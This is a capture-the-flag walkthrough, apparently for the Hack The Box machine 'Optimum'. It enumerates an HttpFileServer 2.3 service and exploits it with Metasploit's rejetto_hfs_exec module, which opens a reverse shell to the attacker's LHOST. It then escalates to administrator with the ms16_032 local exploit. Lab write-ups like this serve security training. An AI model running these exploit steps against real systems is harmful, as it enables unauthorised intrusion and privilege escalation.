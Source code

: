 # Optimum

Date: 2024/06/23

## Enumeration
### Port Scanning

First, I performed a comprehensive port scan to identify open ports and services running on the target machine:

```bash
nmap -sS -p- <IP> -v -oN full_tcp_ports.txt
```

This scan revealed a single open port:

```
PORT   STATE SERVICE
80/tcp open  http
```

Next, I conducted a detailed version and script scan to gather more information about the service running on port 80:

```bash
nmap -sV -sC -p80 <IP> -oN ports.txt -oX ports.xml
```

The output provided specific details:

```
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: HFS 2.3
|_http-title: HFS /
```

### Port 80 Analysis

Upon opening the service in a web browser, I observed the service versione, it is "HttpFileServer 2.3".

I searched for known vulnerabilities related to "HttpFileServer 2.3":

```bash
searchsploit HttpFileServer 2.3
```

The search revealed a remote command execution exploit:

```
-------------------------------------------------------------------------------
 Exploit Title                                                                 |  Path
-------------------------------------------------------------------------------
Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)                    | windows/webapps/49125.py
-------------------------------------------------------------------------------
```

Additionally, I checked for available exploits in Metasploit:

```bash
msf6 > search HttpFileServer 2.3
```

I found a relevant module:

```
Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution
```

## Exploitation

Using Metasploit, I selected the identified module and configured the necessary options:

```bash
use exploit/windows/http/rejetto_hfs_exec
set RHOST <IP>
set LHOST <Your_IP>
run
```

Successfully exploited, I gained a shell as the kostas user and retrieved the user flag.
OS information:

```bash
meterpreter > sysinfo
Computer        : OPTIMUM
OS              : Windows Server 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : el_GR
Domain          : HTB
Logged On Users : 2
Meterpreter     : x86/windows
```

## Privilege Escalation

To identify potential privilege escalation paths, I ran:

```bash
post/multi/recon/local_exploit_suggester
```

The module suggested several exploits:

```
1   exploit/windows/local/bypassuac_eventvwr                       Yes                      The target appears to be vulnerable.
2   exploit/windows/local/bypassuac_sluihijack                     Yes                      The target appears to be vulnerable.
3   exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move   Yes                      The service is running, but could not be validated. Vulnerable Windows 8.1/Windows Server 2012 R2 build detected!
4   exploit/windows/local/ms16_032_secondary_logon_handle_privesc  Yes                      The service is running, but could not be validated.
5   exploit/windows/local/tokenmagic                               Yes                      The target appears to be vulnerable.
```

I got a privilege user only with the the ms16_032_secondary_logon_handle_privesc module :

```bash
use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
set SESSION <session_id>
run
```

Successfully, I gained administrative privileges and accessed the root flag.

***

This README now provides a clear, step-by-step guide for enumerating, exploiting, and escalating privileges on the Optimum machine, complete with detailed explanations for each step.
